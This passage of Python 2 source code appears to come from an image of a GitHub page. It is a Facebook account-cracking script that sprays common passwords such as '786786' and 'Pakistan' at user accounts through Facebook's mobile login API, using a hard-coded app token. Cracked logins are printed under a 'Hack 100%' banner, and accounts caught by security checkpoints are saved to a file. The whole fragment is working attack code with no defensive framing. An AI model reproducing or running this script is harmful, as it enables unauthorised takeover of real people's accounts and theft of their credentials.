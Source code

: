 			if 'access_token' in q:

				print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass1

					cek = open("out/checkpoint.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = '786786'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = 'Pakistan'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)
